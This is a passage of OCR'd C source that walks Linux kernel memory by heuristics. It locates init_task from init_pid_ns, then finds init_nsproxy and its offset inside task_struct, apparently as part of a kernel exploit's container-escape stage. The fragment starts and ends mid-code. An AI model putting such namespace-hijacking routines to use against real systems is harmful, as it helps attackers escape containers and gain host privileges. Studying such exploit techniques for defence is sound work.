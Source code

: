 ```c
    return 0;
}

static char *get_ptr(char *symtab) {
    if (symtab) {
        return (void *)(symtab + *(int *)(symtab));
    }
    return 0;
}

#define pid_namespace_approx_size (0xa0)
#define task_struct_approx_size (0x3000)
static char *find_init_task(char *init_pid_ns) {
    for (size_t *pos = init_pid_ns; pos < init_pid_ns + pid_namespace_approx_size; pos++) {
        size_t may_ptr = *pos;
        if ((may_ptr & 0xffff000000000000) != 0xffff000000000000) {
            continue;
        }

        char *may_task = (char *)may_ptr;
        // check task
        for (size_t *pos2 = may_task; pos2 < may_task + task_struct_approx_size; pos2++) {
            if (*pos2 == may_task) {
                return may_task;
            }
        }
    }
    return 0;
}

#define nsproxy_approx_size (0x60)
static char *find_init_nsproxy(char *init_pid_ns, char *init_uts_ns, size_t *nsproxy_offset) {
    char *init_task = find_init_task(init_pid_ns);
    if (!init_task) {
        return 0;
    }

    // find init_nsproxy in init_task
    for (size_t *pos = init_task; pos < init_task + task_struct_approx_size; pos++) {
        size_t may_ptr = *pos;
        if ((may_ptr & 0xffff000000000000) != 0xffff000000000000) {
            continue;
        }
        if (may_ptr == init_task) {
            continue;
        }

        // guess init_nsproxy
        char *may_nsproxy = may_ptr;
        int has_pid_ns = 0;
        int has_uts_ns = 0;
        for (size_t *pos2 = may_nsproxy; pos2 < may_nsproxy + nsproxy_approx_size; pos2++) {
            size_t may_ptr2 = *pos2;
            if (may_ptr2 == init_pid_ns) {
                has_pid_ns = 1;
            }
            if (may_ptr2 == init_uts_ns) {
                has_uts_ns = 1;
            }

            if (has_uts_ns && has_pid_ns) {
                *nsproxy_offset = may_nsproxy - init_task;
                return may_nsproxy;
```